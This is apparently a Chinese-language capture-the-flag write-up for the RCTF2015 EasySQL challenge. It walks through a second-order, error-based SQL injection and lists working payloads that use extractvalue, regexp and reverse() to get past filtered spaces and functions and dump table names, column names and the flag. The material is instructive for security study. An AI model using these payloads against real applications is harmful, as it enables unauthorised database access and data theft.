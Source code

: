 ## [RCTF2015]EasySQL

打开后发现一个登录注册页面，我们先注册一个：

![image-20230330203914744](https://s2.loli.net/2023/03/30/oMly2N1LC5k38hj.png)

我们发现有一个改密码的地方：

![image-20230330203941627](https://s2.loli.net/2023/03/30/3y7OQ2qGdJZcAvz.png)

因为这题提示sql，并且注册时存在一些特殊字符不给注册，我们猜测这应该是二次注入

我们注册一个账号：

![image-20230330204129383](https://s2.loli.net/2023/03/30/QeEHuIWyPvkUx6V.png)

当我们修改密码时：

![image-20230330204223055](https://s2.loli.net/2023/03/30/5yLxPnNhBIWYAzH.png)

发现报错了，于是我们推测，sql语句如下：

```sql
select * from table where username="1"" and pwd = '202cb962ac59075b964b07152d234b70'
```

所以我们需要注册时，在用户名处进行sql注入，然后修改密码时报错回显。我们应该使用报错注入

经过测试，空格等被过滤了。我们需要绕过，可以使用()、||



查询表名：

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e))#
```

![image-20230330210235007](https://s2.loli.net/2023/03/30/Xh6fPLtK9Hkd1WI.png)

查询字段名：

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e))#
```

![image-20230330210347837](https://s2.loli.net/2023/03/30/VGJ1mKYNugzQp7n.png)

查询数据：

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(flag))from(flag)),0x7e))#
```

![image-20230330210525752](https://s2.loli.net/2023/03/30/8ZVyCAoR4XfHJQr.png)

查询出来了一部分，但是没有显示完全，并且说flag不在这里，

于是我们查询users表

查字段：

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),0x7e))#
```

![image-20230330211039997](https://s2.loli.net/2023/03/30/ZmEIkTgtzr4OhpV.png)

我们想查看完整字段，但是过滤了：left、right、mid函数

我们可以使用正则匹配：（不能使用like，被过滤了）

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&((column_name)regexp('^re'))),0x7e))#
```

![image-20230330211613972](https://s2.loli.net/2023/03/30/WsHr84xCuObweoE.png)

查看到字段名：`real_flag_1s_here`

然后我们去查数据：

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e))#
```

![image-20230330212218279](https://s2.loli.net/2023/03/30/UsF14vo9EBkK8Jf.png)

查到一堆乱七八糟的，我们还是使用正则：

```sql
"||extractvalue(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')),0x7e))#
```

![image-20230330212335501](https://s2.loli.net/2023/03/30/8O9Ka2csA41tQkd.png)

只查到一部分，怎么查另一半呢？这里使用一个函数：`reverse()`

```sql
"||extractvalue(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),0x7e))#
```

![image-20230330212800205](https://s2.loli.net/2023/03/30/Jj2ytAVzKxf5uPN.png)

成功查到另一半

